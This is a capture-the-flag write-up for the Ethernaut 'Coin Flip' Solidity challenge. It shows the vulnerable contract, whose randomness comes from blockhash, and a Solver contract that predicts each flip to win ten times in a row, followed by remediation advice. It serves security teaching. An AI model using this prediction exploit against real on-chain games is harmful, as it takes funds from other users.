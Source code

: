 ![Coin Flip](/assets/img/BigLevel3.svg)

- [Challenge](#challenge)
- [Solution](#solution)
- [Remediation](#remediation)
- [References](#references)
   
# Challenge

This challenge gives us the code of the contract and reads:

> This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

The code given is:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

# Solution

By looking at the contract's code, we see that we can call the flip function, which takes a boolean as input and after "throwing a coin" it compares the outcome with our bet (our input) if they are the same it increments the `consecutiveWins` counter by 1, if it differs, it sets the variable back to 0. 

To solve this challenge, it says that we need to guess the correct outcome 10 times in a row.

So, how can we guess the output of the "coin flip". Well let's look at that code. To get the coin flip, it takes the last block number, gets its hash and divides it by a "factor". This will give true or false.

The problem with this "random" generation method is that it's not random at all! Anyone can now what the last block number is... We just need to code some kind of solver or guesser.

To do that I copied the `CoinFlip.sol` code given by the challenge and modified it, so it would "guess" what the outcome of `flip()` will be, and then call `coinFlip.flip()` with that same output:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "hardhat/console.sol";
import "./CoinFlip.sol";

contract Solver {
    uint256 lastHash;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip coinFlip;
    uint256 public consecutiveWins = 0;

    constructor(address coinFlipAddress) {
        coinFlip = CoinFlip(coinFlipAddress);
    }

    function solve() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        console.log("Solver blockValue: ", blockValue);

        uint256 coin = blockValue / FACTOR;

        bool side = coin == 1 ? true : false;
        coinFlip.flip(side);
        consecutiveWins = coinFlip.consecutiveWins();
        console.log("Consecutive wins: ", coinFlip.consecutiveWins());
    }
}
```

We can deploy this Solver contract with the ethernaut's contract address as input and the run `solve()` function 10 times.

I created a Hardhat project that will automatically deploy the contract and run `solve()` function 10 times! You can find it here: https://github.com/nicolasraus/ethernaut-03-coin-flip-solver

After running `solve()` function 10 times, we can verify that now the `consecutiveWins` variable is 10 by running:
```javascript
await contract.consecutiveWins().then(v => v.toString())
'10'
```
And that's it! We solved it :))

![Well done](/assets/img/ethernaut_solved.png)

# Remediation

To prevent this kind of vulnerabilities do not try to generate randomness by using fields that are controlled by the miner, instead use:
- a commitment scheme, e.g. [RANDAO](https://github.com/randao/randao).
- external sources of randomness via oracles, e.g. [Oraclize](http://www.oraclize.it/). Note that this approach requires trusting in oracle, thus it may be reasonable to use multiple oracles.
- Bitcoin block hashes, as they are more expensive to mine.

# References

- [SWC-120](https://swcregistry.io/docs/SWC-120)